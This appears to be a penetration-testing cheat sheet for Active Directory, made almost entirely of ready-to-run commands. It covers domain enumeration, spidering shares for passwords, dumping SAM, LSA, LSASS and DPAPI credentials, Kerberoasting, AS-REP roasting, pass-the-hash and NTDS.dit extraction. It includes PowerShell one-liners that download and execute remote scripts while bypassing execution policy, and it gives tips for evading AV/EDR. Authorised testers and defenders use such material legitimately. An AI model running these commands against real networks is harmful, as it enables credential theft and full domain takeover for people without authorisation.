 # Active Directory

## Mapping & Enumeration

### Bloodhound
Use BloodHound to find compromission paths. First execute the collector on a host that is in the targeted domain.
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1’);Invoke-BloodHound"
```
If it's possible, execute SharpHound. On Linux, you can use the python version. More information here : <https://github.com/BloodHoundAD/SharpHound> and <https://github.com/fox-it/BloodHound.py>
```bash
python3 bloodhound.py -u 'XXX' -dc 'DOMAIN' -c all
```
The tool give you a zip file, that you have to send to a Neo4j database. On Linux, install Neo4j and start the service :
```bash
sudo neo4j start
```
Then execute BloodHound and import the zip file.

### Goddi
To get all the important information from the Active Directory :
```bash
./goddi-linux-amd64 -dc IP_DC -domain=DOMAIN -username=USERNAME -password=PASSWORD -unsafe
```

## Shares
Dump all shares via CrackMapExec. This can be used on native Kali distribution :
```bash
crackmapexec smb IP_ADDRESS/MASK -u 'XXX' -p 'XXX' -M spider_plus -o READ_ONLY=false
```
This command create a directory cme_spider_plus in /tmp (for Linux). To retrive passwords, simply use grep, by using keywords like 'password', 'pass', 'username', 'ldap://', etc ..
```bash
grep -rnw ./ -e 'password'
```
If detected by AV/EDR, try PowerShell one-liner PowerView :
```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')"
```
Then, a lot of functionalities can be used. To find all domain shares :
```powershell
Find-DomainShare -CheckShareAccess
```
All the functionalities here : <https://powersploit.readthedocs.io/en/latest/Recon/>
## Dump credentials
### CrackMapExec
Many possibilites. Use --local-auth if using a local admin account.
With lsassy module :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' -M lsassy
```
Dump SAM (local hashes) :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --sam
```
Dump LSA secrets :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --lsa
```
Many possibilites here, if you get passwords or NTLM hashes, you know what to do. There's others possibilites too, like authenticating with AES keys (you can use 256 or 128 bits keys). You can get it by dumping LSA secrets. Once you get one, you can use the AES keys with Impacket to do whatever you want, and also get a TGT :
```bash
impacket-getTGT domain.local/username -aesKey AES_KEY -dc-ip DC_IP
```

### DonPAPI
Use DonPAPI to retrieve a lot of credentials (wifi, dpapi keys, browsers passwords, ...) :
```bash
python3 DonPAPI.py DOMAIN/USERNAME:PASSWORD@IP_ADDRESS
```
It's possible to use the tool with Pass-The-Hash :
```bash
python3 DonPAPI.py DOMAIN/USERNAME@IP_ADDRESS --hashes LM:NT
```
You can parse the output by using this magic one-liner :
```bash
cat DonPapiOutput.txt | grep -ae 'Firefox Password' -e 'Chrome Password' | cut -d : -f 3 | cut -d ' ' -f 2 | sort | uniq >> motdepasse.txt && cat DonPapiOutput.txt | grep -ae '\[mRemoteNG\]' | cut -d : -f 2 | cut -d ' ' -f 1 | sort | uniq >> motdepasse.txt & cat motdepasse.txt | sort | uniq | sed "s,\x1B\[[0-9;]*[a-zA-Z],,g" > motdepasse.txt
```

### Mimikatz
On Windows, retrieve password/hash from a dump file :
```powershell
sekurlsa::minidump "XXXXXXXXX.DMP"
sekurlsa::logonPasswords
```
On Kali, use pypykatz based on python :
```bash
pypykatz lsa minidump 'XXX.DMP'
```
### Others
Native Windows command :
```markdown
rundll32 keymgr.dll, KRShowKeyMgr
```
Savoir : Mimikatz recompiled in Go lang : <https://github.com/vincd/savoir>
## Impersonation
To execute commands with another account :
```powershell
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)
Invoke-Command -ComputerName Server01 -Credential $credential -ScriptBlock { COMMAND }
```
## Kerberos
### Kerberoast
GetUserSPNs and get hashes :
```bash
impacket-GetUserSPNs -request -dc-ip IP_ADDRESS DOMAIN/USERNAME -outputfile hashes.kerberoast
```
If you get hashes, try to crack it and then use DCSync exploit :
```bash
impacket-secretsdump -just-dc-ntlm DOMAIN/USERNAME:PASSWORD@DC_IP
```
### AS-REP Roasting
Look for users without Kerberos pre-authentication required attribute (using credential, low privilege) :
```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD
```
Get a TGT for a user, whithout his password, if you know that this account have Kerberos pre-auth disabled :
```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME -no-pass
```
### Tips to authenticate with Kerberos while pentesting
If you have a valid username/password, you can ask the KDC for a TGT. It is truly important to use the real domain name and not an alias :
```bash
impacket-getTGT 'domain.local/username:password' -dc-ip DC_IP
```
This command will create a .ccache file, which is your TGT allowing you to authenticate against the KDC. Export it on the KRB5CCNAME variable to use it :
```bash
export KRB5CCNAME=/absolute/path/to/user.ccname
```
Then you can use, for example the impacket collection, with -k and -no-pass options to use kerberos authentication :
```bash
impacket-smbexec domain.local/username@FQDN -k -no-pass
impacket-wmiexec domain.local/username@FQDN -k -no-pass
impacket-psexec domain.local/username@FQDN -k -no-pass
```
With CrackMapExec, use the -k and --use-kcache options to use a kerberos authentication :
```bash
crackmapexec smb IP_ADDRESS/MASK -u 'USERNAME' -k --use-kcache
```

## NTDS Exfiltration
### Remote extraction using CrackmapExec or Impacket
Once you get domain admin, dump NTDS.dit to get all the hashes from the Active Directory :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN' -u 'USERNAME' -p 'PASSWORD' --ntds
```
Use with -H option to use NTLM hash :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN' -u 'USERNAME' -H 'NTLM_HASH' --ntds
```
You can also use Impacket to extract NTDS from the DC :
```bash
impacket-secretsdump domain.local/username@FQDN -k -no-pass
```
Then, extract all the hashes to put them on hashcat.
```bash
cat ntds.dit | cut -d : -f 4 |sort|uniq > hashes.txt
```

### Extract NTDS from a local NTDS.dit file
If you get a local access to the DC, you have to get NTDS.dit and SYSTEM files in order to extract all the informations. These files are located here :
```powershell
%SYSTEMROOT%\NTDS\ntds.dit
%SystemRoot%\System32\config\SYSTEM
```
Once you get these two files, you are able to extract all the informations using impacket. The 'LOCAL' at the end allows you to use local ntds file :
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
